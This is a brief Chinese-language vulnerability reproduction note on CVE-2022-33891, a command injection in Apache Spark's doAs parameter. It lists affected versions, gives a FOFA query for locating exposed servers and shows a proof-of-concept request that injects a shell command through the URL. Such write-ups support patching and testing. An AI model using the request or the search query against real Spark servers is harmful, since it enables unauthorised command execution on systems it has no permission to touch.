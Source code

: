 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## FOFA

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091044113.png)